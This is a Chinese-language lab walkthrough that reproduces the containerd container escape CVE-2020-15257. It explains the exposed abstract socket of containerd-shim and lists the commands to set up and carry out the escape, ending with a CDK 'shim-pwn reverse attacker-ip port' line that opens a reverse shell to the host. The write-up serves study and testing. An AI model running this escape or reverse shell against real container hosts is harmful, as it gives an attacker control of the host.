 # Containerd漏洞导致容器逃逸（CVE-2020-15257）

## 场景介绍

Containerd是一个控制runC的守护进程，提供命令行客户端和API，用于在一个机器上管理容器。

在版本1.3.9之前和1.4.0~1.4.2的Containerd中，由于在**网络 模式为host**的情况下，容器与宿主机共享一套 Network namespaces ，此时 containerd-shim API 暴露给了用户，而且访问控制仅仅验证了连接进程的有效UID为0，但没有限制对抽象Unix域套接字的访问，刚好在**默认情况下，容器内部的进程是以root用户启动**的。在两者的共同作用下，容器内部的进程就可以像主机中的containerd一样，连接containerd-shim监听的抽象Unix域套接字，调用containerd-shim提供的各种API，从而实现容器逃逸。

## 环境搭建

漏洞环境准备：

```bash
./metarget cnv install cve-2020-15257
```

## 漏洞复现

使用以下命令启动容器:

```bash
sudo docker run -it --net=host --name=15257 ubuntu /bin/bash
```

在容器内执行命令`cat /proc/net/unix|grep -a "containerd-shim"`，查看结果确认是否可看到抽象命名空间Unix域套接字:

![image-20210618151008778](images/1.png)

在攻击端监听1234端口，然后下载漏洞利用工具cdk（https://github.com/cdk-team/CDK）并将其传入容器/tmp目录下：

```bash
sudo docker cp cdk_linux_amd64 15257:/tmp
sudo docker exec -it 15257 bash
```

运行工具，执行反弹shell命令,验证得到一个宿主机的shell:

```bash
cd /tmp
./cdk_linux_amd64 run shim-pwn reverse attacker-ip port
```

## 参考文献

1. https://mp.weixin.qq.com/s/WmSaLPnG4o4Co1xRiYCOnQ
2. https://www.cdxy.me/?p=837